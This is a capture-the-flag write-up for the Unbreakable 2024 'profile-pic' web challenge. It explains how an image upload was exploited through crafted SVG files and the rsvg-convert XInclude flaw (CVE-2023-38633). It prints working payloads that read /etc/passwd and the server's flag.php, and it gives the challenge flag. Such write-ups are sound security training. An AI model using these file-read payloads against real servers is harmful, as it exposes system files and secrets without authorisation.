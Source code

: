 ```yaml
---
title: profile-pic
type: writeup
date: 2024-04-07T12:50:30+03:00
description: Writeup for profile-pic [Unbreakable 2024]
author: H0N3YP0T
tags:
- web
draft: false
---
```

___

## Challenge Description

Can you change my profile picture in a hacker way?

Flag format: ctf{sha256sum}


## Intuition

The website is very simple with an upload feature. It means the attack vector is certainly a file upload vulnerability.
The server is PHP because I can add `index.php` at the end of the home page. We first thought about injecting php code, but
we finally looked at XXE upload chaining with the upload feature.

![img.png](/images/unbreakable_2024/profile.png)

Another hint about svg exploit was that the file was renamed and retyped to `png` after upload therefore it was obvious
that we had to exploit something else than php.

![img.png](/images/unbreakable_2024/png.png)

## Solution

The first step is to bypass the length check of the image. We can do this by changing the content-type of the image to `text/xml` and then upload a simple XML file.
![img.png](/images/unbreakable_2024/size.png)

![img.png](/images/unbreakable_2024/error.png)

The correct size is actually 50x50px. We can bypass this as follows:

```xml
<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="50" height="50" xmlns:xi="http://www.w3.org/2001/XInclude">
</svg>
```
The next step was to try to read source code or run commands using `expect://` or `file://` but it didn't work.
We noticed the error message above about the size and library `rsvg-convert` so we looked for recent exploits and 
found [this one](https://secalerts.co/vulnerability/CVE-2023-38633) therefore we tried to exploit it.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg width="50" height="50" xmlns:xi="http://www.w3.org/2001/XInclude">
    <rect width="50" height="50" style="fill:rgb(255,255,255);" />
    <text x="10" y="10">
        <xi:include href=".?../../../../../../../etc/passwd" parse="text" encoding="UTF-8">
            <xi:fallback>file not found</xi:fallback>
        </xi:include>
    </text>
</svg>
```

![img.png](/images/unbreakable_2024/passwd.png)

We got it something ! Now it is time to read the flag file. And after enumerating some default paths for Apache server,
we found the flag in `/var/www/html/flag.php`.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg width="50" height="50" xmlns:xi="http://www.w3.org/2001/XInclude">
  <rect width="50" height="50" style="fill:rgb(255,255,255);" />
  <text x="-610" y="25">
    <xi:include href=".?../../../../../../../var/www/html/flag.php" parse="text" encoding="UTF-8">
      <xi:fallback>file not found</xi:fallback>
    </xi:include>
  </text>
</svg>
```
![img.png](/images/unbreakable_2024/flag.png)

The last step is to play with the following param `<text x="-610"` in order to read the flag.

### Flag

`CTF{af0a742b17dd73ca3d8ff27c885350a890c4ab104670fa3373de63c7709925b0}`

## Acknowledge

This writeup was co-authored by [sunbather](https://github.com/costinteo), [Koyossu](https://github.com/SecioreanuStefanita) and [H0N3YP0T](https://github.com/Mathis-Dory).

